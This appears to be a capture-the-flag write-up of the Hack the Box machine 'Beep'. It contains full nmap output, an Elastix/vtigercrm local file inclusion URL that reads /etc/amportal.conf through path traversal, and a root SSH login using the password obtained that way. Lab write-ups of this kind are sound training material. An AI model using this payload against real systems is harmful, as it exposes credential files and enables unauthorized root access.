 ```yaml
---
layout: post
title: "Beep"
categories: HTB
---
```

<hr>
### Introduction
This is my writeup of the retired machine Beep from Hack the Box.

<hr>
### Nmap scan
```
nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.7

Nmap scan report for 10.10.10.7
Host is up (0.014s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS USER AUTH-RESP-CODE EXPIRE(NEVER) TOP RESP-CODES PIPELINING APOP UIDL IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: LITERAL+ CATENATE RIGHTS=kxte UNSELECT SORT QUOTA STARTTLS LISTEXT X-NETSCAPE OK IMAP4rev1 IMAP4 NAMESPACE NO SORT=MODSEQ LIST-SUBSCRIBED UIDPLUS URLAUTHA0001 CONDSTORE IDLE THREAD=REFERENCES RENAME ACL ANNOTATEMORE Completed ID BINARY MULTIAPPEND THREAD=ORDEREDSUBJECT CHILDREN ATOMIC MAILBOX-REFERRALS
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-18T05:31:35+00:00; -10s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -10s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 18 15:34:20 2020 -- 1 IP address (1 host up) scanned in 364.86 seconds
```

<hr>

### Web Enumeration

Browsing to port 80 redirects to port 443

Elastix is running<br>

![](\images\htb\beep\1.png)<br><br>

Elastix is vulnerable to LFI (view source to make it readable)<br>
`https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

![](\images\htb\beep\2.png)<br><br>

<hr>

### Root

Always try the simplest things first it could be a quick win<br>
    ```
    ssh root@10.10.10.7
    password: jEhdIekWmdjE
    ```
    <br>
![](\images\htb\beep\3.png)<br><br>
